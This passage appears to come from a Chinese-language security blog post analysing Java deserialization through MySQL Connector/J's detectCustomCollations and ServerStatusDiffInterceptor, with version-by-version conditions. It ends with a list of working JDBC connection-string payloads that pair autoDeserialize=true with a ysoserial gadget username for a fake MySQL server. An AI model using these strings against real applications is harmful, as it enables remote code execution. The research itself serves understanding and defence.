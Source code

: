 **一点要看的题外话：**看前面提到的5.x的手册，`detectCustomCollations`这个选项是从5.1.29开始的，经过代码比对，可以认为`detectCustomCollations`这个选项在5.1.29之前一直为true。

**测试环境中使用mysql-connector-java 5.1.29+java 1.8.20：**

触发点在`com.mysql.jdbc.ConnectionImpl`的`buildCollationMapping`方法中：

（调用栈就不放了，打个断点就到了）

[![](https://p1.ssl.qhimg.com/t013e8a2f516b995c72.png)](https://p1.ssl.qhimg.com/t013e8a2f516b995c72.png)

可以看到两个条件：
1. 服务器版本大于等于4.1.0，并且`detectCustomCollations`选项为true
**PS:** 5.1.28的这条判断条件只有服务器版本大于4.1.0
1. 获取了`SHOW COLLATION`的结果后，服务器版本大于等于5.0.0才会进入到上一节说过的`resultSetToMap`方法触发反序列化
[![](https://p2.ssl.qhimg.com/t01418aa5ab9a727026.png)](https://p2.ssl.qhimg.com/t01418aa5ab9a727026.png)

此处getObject与前文一致不再赘述，此处只需要字段2或3为BLOB装载我们的序列化数据即可。

由于从5.1.41版本开始，不再使用getObject的方式获取`SHOW COLLATION`的结果，此方法失效。

5.1.18以下未使用getObject方式进行获取，同样无法使用此方法：

[![](https://p5.ssl.qhimg.com/t01a6858be813592f15.png)](https://p5.ssl.qhimg.com/t01a6858be813592f15.png)



## 总结下可用的连接串

用户名是基于MySQL Fake Server工具的，具体使用中请自行修改。

**ServerStatusDiffInterceptor触发：**

**8.x:**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc`

**6.x(属性名不同):**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc`

**5.1.11及以上的5.x版本（包名没有了cj）:**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc`

**5.1.10及以下的5.1.X版本：**同上，但是需要连接后执行查询。

**5.0.x:**还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

**detectCustomCollations触发：**

**5.1.41及以上:**不可用

**5.1.29-5.1.40:**`jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&amp;autoDeserialize=true&amp;user=yso_JRE8u20_calc`

**5.1.28-5.1.19：**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;user=yso_JRE8u20_calc`

**5.1.18以下的5.1.x版本：**不可用

**5.0.x版本不可用**
